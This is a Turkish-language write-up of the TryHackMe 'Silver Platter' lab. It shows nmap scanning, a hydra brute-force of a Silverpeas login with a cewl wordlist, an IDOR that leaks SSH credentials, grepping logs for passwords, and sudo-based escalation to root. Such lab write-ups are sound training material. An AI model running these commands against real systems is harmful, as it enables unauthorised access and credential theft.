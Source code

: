 ```yaml
---
title: 'TryHackMe | Silver Platter WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [brute force, log, idor, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_silver_platter/
image:
  path: logo.webp
---
```


## Özet

Silver Platter, web uygulamasındaki bilgilerden yararlanarak kaba kuvvet saldırısı yaptığımız kolay seviye bir makinedir. Uygulamaya giriş yaptıktan sonra mesajların bulunduğu alanda bir `IDOR` zafiyeti tespit edecek ve bu zafiyeti sömürerek SSH kullanıcı bilgilerini öğreneceğiz. Daha sonra log dosyalarından birinde bulduğumuz parola ile bir başka kullanıcıya geçiş yapacağız. Bulunduğumuz kullanıcının sudo yetkilerini kontrol ettiğimizde ise root haklarıyla istediğimiz komutları çalıştırabileceğimizi öğreneceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sSVC -T4 10.10.53.94
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
...
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Tyler Ramsbey tarafından yapılmış bir web uygulaması ile karşı karşıyayız. Uygulamanın amacını tam olarak anlamış değilim. Bazı yerlerde CTF'ler düzenledikleri, bazı yerlerde ise kurumların güvenliğini sağladıkları yazıyor. Sanırım bu iki işi de görüyorlar. İletişim sayfasına baktığımızda, iletişim için bir kullanıcı adı verildiğini ve onlarla Silverpeas üzerinden iletişim kurabileceğimizin belirtildiğini görüyoruz.

![](2.webp){: width="900" height="500" }

### 8080 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Bahsettiği `silverpeas` uygulaması `8080` numaralı port üzerinde bulunuyor. İletişim kurmak için bu adrese sadece kullanıcı adı ile yönlendirdiğini düşünürsek, parolasının aynı kullanıcı adına sahip olduğunu veya varsayılan bilgileri içerdiğini düşünebiliriz ama değil. Cewl aracı ile 80 numaralı port üzerindeki web sitesindeki bilgilerden bir parola listesi oluşturalım. Daha sonra ise hydra aracından yararlanarak bir kaba kuvvet saldırısı başlatalım.

```console
$ cewl http://10.10.53.94 > passwords.txt
$ hydra -l scr1ptkiddy -P passwords.txt 10.10.53.94 -s 8080 http-post-form "/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-31 09:49:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 345 login tries (l:1/p:345), ~22 tries per task
[DATA] attacking http-post-form://10.10.53.94:8080/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect
[8080][http-post-form] host: 10.10.53.94   login: scr1ptkiddy   password: ***
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-31 09:49:19
```

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım.

![](4.webp){: width="1200" height="600" }

## Sömürü aşaması

![](5.webp){: width="1200" height="600" }

Sistemde `manager`, `scr1ptkiddy` ve `administrator` olmak üzere üç adet kullanıcı bulunuyor. Bu kullanıcılara mesaj gönderebiliyoruz. Bulunduğumuz kullanıcıya ise `manager` kullanıcısından "game night" başlığı altında bir mesaj gönderilmiş.

![](6.webp){: width="1200" height="600" }

scr1ptkiddy kullanıcısına gönderilen mesajda bir saat içinde bir VR oyununa başlayacaklarını ve katılmak isteyip istemediğini sorduğunu görüyoruz. Bu arada url yapısı dikkatimizi çekiyor. 

![](7.webp){: width="900" height="500" }

ID değerini her değiştirişimizde başka bir kullanıcının mesajı ile karşılaşıyoruz. 6 numaralı mesajı kontrol etmek istediğimizde ise `tim` kullanıcısının parolasını elde ediyoruz.

![](8.webp){: width="900" height="500" }

Kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra ilk bayrağı kullanıcının kendi dizininden alıyoruz.

## Yetki yükseltme

### tyler

`id` komutunu kullandıktan sonra `adm` grubunda olduğumuzu öğreniyoruz.

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

`adm` grubunda bulunan dosyaları listelediğimizde geneli log dosyalarından oluşan bir takım dosyalar ile karşılaşıyoruz.

```console
tim@silver-platter:~$ find / -group adm 2>/dev/null
/var/log/kern.log                                                                                                                                                                             
/var/log/syslog.3.gz                                                                                                                                                                          
/var/log/kern.log.2.gz                                                                                                                                                                        
/var/log/syslog.2.gz                                                                                                                                                                          
/var/log/auth.log.1                                                                                                                                                                           
/var/log/kern.log.1                                                                                                                                                                           
/var/log/dmesg.4.gz                                                                                                                                                                           
...
```

Haliyle bu log dosyalarından `tyler` kullanıcısının parolasını bulabileceğimi düşündüm ve grep komutu ile /var/log dizinindeki dosyaları kontrol ettim.

```console
tim@silver-platter:~$ grep "password" -iR /var/log 2>/dev/null | grep "tyler"
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=*** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```

`auth.log` dosyası içerisinded `tyler` kullanıcısının parolasını buluyor ve kendisine geçiş yapıyoruz.

### root

`sudo` yetkilerimizi görüntülediğimizde herhangi bir kullanıcı adına istediğimiz tüm komutları çalıştırabileceğimizi öğreniyoruz.

```console
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) AL
```

`sudo su` komutunu kullanarak root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
tyler@silver-platter:/home/tim$ sudo su
root@silver-platter:/home/tim# cd /root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt 
THM{***}
```

